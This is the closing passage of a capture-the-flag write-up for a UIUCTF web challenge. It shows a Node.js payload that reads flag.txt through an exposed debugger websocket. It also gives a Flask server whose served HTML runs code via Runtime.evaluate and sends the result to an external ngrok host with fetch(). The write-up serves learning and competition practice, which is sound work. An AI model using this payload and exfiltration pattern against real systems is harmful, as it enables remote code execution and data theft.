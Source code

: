 I run this and get... a ulimit error from spawning a child. Great. After changing the payload and resubmitting the captcha few times, we get the flag with `require = process.mainModule.require;fs = require('fs');fs.readFileSync('flag.txt').toString();`:

`uiuctf{https://youtu.be/17ocaZb-bGg}`

## Things after solving
The XSS bug was actually completely unneccessary because websockets do not have the concept of a same origin policy, so we could have send the admin to our server and have that return the script too - here's a sample server that does that:

```python
from flask import Flask
import requests
import http.client
from pwn import *
from flask_cors import CORS, cross_origin
app = Flask(__name__)
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

def make_r():
    print("make_r: hi")
    r = remote("wasmcloud.chal.uiuc.tf", 80)
    r.sendline(b"GET /run/a9323890b8db4c5a.wasm HTTP/1.1\r\n")
    uuid = r.recv(1024).decode().split(" ")[-4].split("\n")[0]
    return uuid

@app.route("/")
@cross_origin()
def hello_world():
    uuid = make_r()
    s = """<!DOCTYPE html><script>
async function g(){
    let s = new WebSocket("%s");
    s.onopen = function() {
        data = `require = process.mainModule.require;fs = require('fs');fs.readFileSync('flag.txt').toString();`;
        s.send(JSON.stringify({'id':1,'method':'Runtime.evaluate','params':{'expression': data}}));
    };
    s.onmessage = function (event) {
        fetch(`http://server.ngrok.io/?`+btoa(event.data));
    };
};
g();
</script>""" % uuid
    return s

app.run(port=8080)
```
Submitting your ngrok URL with this to the admin bot is enough to get the flag.

We also could have just had the XSS script fetch /run/ itself, but I don't wanna make a PoC for this.
